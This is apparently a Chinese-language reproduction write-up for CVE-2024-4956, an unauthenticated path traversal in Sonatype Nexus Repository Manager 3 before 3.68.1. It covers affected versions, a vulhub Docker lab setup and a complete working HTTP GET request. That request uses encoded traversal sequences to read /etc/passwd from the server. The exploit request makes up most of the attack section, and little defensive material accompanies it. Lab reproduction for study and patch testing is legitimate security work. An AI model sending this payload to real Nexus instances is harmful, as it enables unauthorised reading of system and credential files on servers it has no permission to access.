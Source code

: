 # CVE-2024-4956

> **Created by：** A-little-dragon
> **Team：** TracelessSec
> **漏洞描述：** Nexus Repository Manager 3  目录穿越漏洞，可读取任意文件。



# 0x01 漏洞简介 

Nexus Repository Manager，是Sonatype公司的一个产品。 它是一个强大的仓库管理器，极大地简化了内部仓库的维护和外部仓库的访问。

在 Nexus Repository 3.68.1 之前的版本中发现了一个路径遍历漏洞。此漏洞允许攻击者构造一个 URL 来下载 Nexus Repository 应用程序范围之外的系统文件，而无需任何身份验证。

# 0x02 影响范围

该漏洞影响 `Sonatype Nexus Repository Manager 3.0` 至 `3.68.0` 版本。

# 0x03 前置条件

攻击者必须具有 `Sonatype Nexus Repository 3` 实例的网络访问权限。

# 0x04 环境搭建

```bash
git clone https://github.com/vulhub/vulhub
cd vulhub/nexus/CVE-2024-4956
systemctl restart docker
docker compose up -d
```

# 0x05 漏洞复现

```
GET /%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f../etc/passwd HTTP/1.1
Host: 192.168.100.141:8081
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Content-Length: 21
Connection: close
```

![Untitled](image/Untitled.png)

